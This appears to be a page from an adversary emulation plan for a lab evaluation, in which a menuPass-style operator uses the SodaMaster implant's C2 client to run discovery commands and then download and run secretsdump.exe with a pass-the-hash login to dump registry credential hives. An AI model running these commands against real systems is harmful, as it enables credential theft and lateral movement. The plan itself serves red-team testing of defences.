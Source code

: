 To prepare to laterally move onto the file server, menuPass uses SodaMaster to
download `secretsdump.exe`, which is Impacket's `secretsdump.py` converted to
an executable binary using PyInstaller. SodaMaster executes `secretsdump.exe`
to dump the SYSTEM/SECURITY/SAM hives on the bastion workstation `kimeramon (10.20.20.11)`,
authenticating using the NTLM hash for `kizumi.da` collected
previously.

The retrieved dump contains a cached domain login for `kmimi`, the file
server administrator in Subsidiary B which is cracked to reveal `kmimi`'s
plaintext password.

### ☣️ Procedures

* Using SodaMaster, execute the discovery actions shellcode. **Wait until each command has returned before executing the next.**
  * `netstat -anop tcp`

    ```
    ./evalsC2client.py --set-task 2ef436e5400781c2f6611c31d4ef79b8 '{"id":"s", "args":"netstat -anop tcp"}'
    ```

    * :heavy_exclamation_mark: Verify a network connection to `alphamon (10.20.10.23)` port 445

  * `tasklist /v`

    ```
    ./evalsC2client.py --set-task 2ef436e5400781c2f6611c31d4ef79b8 '{"id":"s", "args":"tasklist /v"}'
    ```

    * :heavy_exclamation_mark: Verify that the enumerated processes output contains a process running under `kmimi`

  * `net view 10.20.10.23 /all`

    ```
    ./evalsC2client.py --set-task 2ef436e5400781c2f6611c31d4ef79b8 '{"id":"s", "args":"net view 10.20.10.23 /all"}'
    ```

    * :heavy_exclamation_mark: Verify the output contains a list of file shares with the file server host `alphamon (10.20.10.23)`

  * `net user kmimi /domain`

    ```
    ./evalsC2client.py --set-task 2ef436e5400781c2f6611c31d4ef79b8 '{"id":"s", "args":"net user kmimi /domain"}'
    ```

    * :heavy_exclamation_mark: Verify that `File Server Admins` is listed as one of the groups that `kmimi` is a member of

* Using SodaMaster, download and execute `secretsdump.exe`, using the NTLM hash for `kizumi.da`
collected in step 5

  ```
  ./evalsC2client.py --set-task 2ef436e5400781c2f6611c31d4ef79b8 '{"id":"s", "payload":"secretsdump.exe", "payloadPath":"C:/Windows/Temp", "args":"C:/Windows/Temp/secretsdump.exe digirunaway/kizumi.da@127.0.0.1 -hashes :6265fbabbdaa3ee71df61bd9f3c77d68 > C:/Windows/Temp/tmp4541 && echo Done"}'
  ```
